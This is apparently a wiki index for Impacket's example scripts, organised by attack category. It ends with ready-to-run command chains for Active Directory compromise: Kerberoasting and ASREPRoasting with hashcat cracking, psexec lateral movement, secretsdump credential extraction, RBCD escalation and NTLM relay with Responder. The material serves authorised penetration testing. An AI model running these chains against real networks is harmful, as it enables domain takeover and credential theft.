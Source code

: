 # Impacket Examples Wiki

This wiki provides comprehensive documentation for all Impacket example scripts. Impacket is a collection of Python classes for working with network protocols, widely used in penetration testing and red team operations.

## Table of Contents

### Authentication & Credential Attacks
- [addcomputer.py](addcomputer.md) - Add computer accounts to domain
- [changepasswd.py](changepasswd.md) - Change user passwords
- [GetNPUsers.py](GetNPUsers.md) - ASREPRoast attack
- [GetUserSPNs.py](GetUserSPNs.md) - Kerberoasting attack
- [getST.py](getST.md) - Service ticket requests
- [getTGT.py](getTGT.md) - Ticket granting ticket requests
- [goldenPac.py](goldenPac.md) - Golden PAC attack
- [keylistattack.py](keylistattack.md) - KeyList attack
- [ticketer.py](ticketer.md) - Golden/Silver ticket creation
- [ticketConverter.py](ticketConverter.md) - Convert ticket formats

### Credential Dumping & Extraction
- [secretsdump.py](secretsdump.md) - Extract credentials from Windows systems
- [DumpNTLMInfo.py](DumpNTLMInfo.md) - Dump NTLM authentication info
- [mimikatz.py](mimikatz.py) - Mimikatz-like functionality
- [dpapi.py](dpapi.md) - DPAPI blob decryption
- [regsecrets.py](regsecrets.md) - Extract secrets from registry

### Remote Command Execution
- [psexec.py](psexec.md) - PsExec-like remote execution
- [smbexec.py](smbexec.md) - SMB-based remote execution
- [wmiexec.py](wmiexec.md) - WMI-based remote execution
- [dcomexec.py](dcomexec.md) - DCOM-based remote execution
- [atexec.py](atexec.md) - Scheduled task execution

### Active Directory Enumeration
- [GetADUsers.py](GetADUsers.md) - Enumerate AD users
- [GetADComputers.py](GetADComputers.md) - Enumerate AD computers
- [findDelegation.py](findDelegation.md) - Find delegation relationships
- [GetLAPSPassword.py](GetLAPSPassword.md) - Extract LAPS passwords
- [Get-GPPPassword.py](Get-GPPPassword.md) - Extract Group Policy passwords

### Privilege Escalation & Persistence
- [dacledit.py](dacledit.md) - Edit DACL permissions
- [owneredit.py](owneredit.md) - Edit object ownership
- [rbcd.py](rbcd.md) - Resource-based constrained delegation
- [raiseChild.py](raiseChild.md) - Child to parent domain privilege escalation
- [wmipersist.py](wmipersist.md) - WMI-based persistence

### Network Services & Protocols
- [smbclient.py](smbclient.md) - SMB client functionality
- [smbserver.py](smbserver.md) - SMB server implementation
- [mssqlclient.py](mssqlclient.md) - MSSQL client
- [mssqlinstance.py](mssqlinstance.md) - MSSQL instance enumeration
- [rpcdump.py](rpcdump.md) - RPC endpoint enumeration
- [rpcmap.py](rpcmap.md) - RPC endpoint mapping
- [sambaPipe.py](sambaPipe.md) - Samba pipe operations

### Registry & System Operations
- [reg.py](reg.md) - Remote registry operations
- [registry-read.py](registry-read.md) - Read registry remotely
- [services.py](services.md) - Windows service management
- [ntfs-read.py](ntfs-read.md) - NTFS file system operations

### Information Gathering
- [lookupsid.py](lookupsid.md) - SID lookup and enumeration
- [samrdump.py](samrdump.md) - SAM database enumeration
- [netview.py](netview.md) - Network view enumeration
- [net.py](net.md) - Network operations
- [machine_role.py](machine_role.md) - Determine machine role

### Network Analysis & Monitoring
- [sniff.py](sniff.md) - Network packet sniffing
- [sniffer.py](sniffer.md) - Advanced packet sniffing
- [kintercept.py](kintercept.md) - Kerberos interception
- [karmaSMB.py](karmaSMB.md) - SMB honeypot

### Utilities & Miscellaneous
- [ping.py](ping.md) - ICMP ping utility
- [ping6.py](ping6.md) - IPv6 ping utility
- [split.py](split.md) - File splitting utility
- [exchanger.py](exchanger.md) - Exchange server operations
- [esentutl.py](esentutl.md) - ESE database utilities
- [getArch.py](getArch.md) - Architecture detection
- [getPac.py](getPac.md) - PAC information extraction
- [describeTicket.py](describeTicket.md) - Kerberos ticket analysis
- [tstool.py](tstool.md) - Terminal services operations
- [mqtt_check.py](mqtt_check.md) - MQTT protocol testing
- [rdp_check.py](rdp_check.md) - RDP service checking
- [wmiquery.py](wmiquery.md) - WMI query execution

## Attack Chains & Methodologies

Many of these tools can be chained together for comprehensive attacks:

1. **Domain Enumeration Chain**: GetADUsers.py → GetUserSPNs.py → GetNPUsers.py
2. **Credential Dumping Chain**: secretsdump.py → mimikatz.py → dpapi.py
3. **Lateral Movement Chain**: psexec.py → smbexec.py → wmiexec.py
4. **Privilege Escalation Chain**: dacledit.py → rbcd.py → getST.py
5. **Persistence Chain**: wmipersist.py → services.py → reg.py

## Getting Started

Each tool documentation includes:
- Overview and purpose
- Detailed description of functionality
- Command-line options and parameters
- Usage examples
- Attack chain integration
- Detection considerations

## Additional Resources

- **[Quick Reference Guide](QUICK_REFERENCE.md)**: Essential commands and syntax for all tools
- **[Attack Methodologies](ATTACK_METHODOLOGIES.md)**: Comprehensive attack chains and methodologies
- **[Tool Generator](generate_docs.py)**: Script to generate documentation templates

## Attack Chain Examples

### Complete Domain Compromise Chain
```bash
# 1. Initial reconnaissance
python3 GetNPUsers.py domain.com/ -dc-ip 192.168.1.10 -request

# 2. Crack obtained hashes
hashcat -m 18200 hashes.txt wordlist.txt

# 3. Use cracked credentials for Kerberoasting
python3 GetUserSPNs.py domain.com/user:password -dc-ip 192.168.1.10 -request

# 4. Crack service account passwords
hashcat -m 13100 service_hashes.txt wordlist.txt

# 5. Use service account for lateral movement
python3 psexec.py domain.com/service_account:password@target.domain.com

# 6. Extract all domain credentials
python3 secretsdump.py domain.com/service_account:password@dc.domain.com -just-dc
```

### RBCD Privilege Escalation Chain
```bash
# 1. Add computer account
python3 addcomputer.py domain.com/user:password -computer-name EVIL$ -computer-pass Pass123

# 2. Configure RBCD
python3 rbcd.py domain.com/user:password -action write -delegate-from EVIL$ -delegate-to TARGET$

# 3. Request service ticket
python3 getST.py domain.com/EVIL$:Pass123 -spn cifs/TARGET$ -impersonate administrator

# 4. Use ticket for access
export KRB5CCNAME=administrator.ccache
python3 psexec.py -k -no-pass TARGET$
```

### NTLM Relay Attack Chain
```bash
# 1. Set up relay (Terminal 1)
python3 ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"

# 2. Capture authentication (Terminal 2)
python3 Responder.py -I eth0 -w

# 3. Trigger authentication (various methods)
# - Send malicious document with UNC path
# - Social engineering web requests
# - WPAD poisoning
```

## Contributing

To contribute to this wiki, please follow the established format for each tool documentation. Use the `generate_docs.py` script to create new documentation templates.
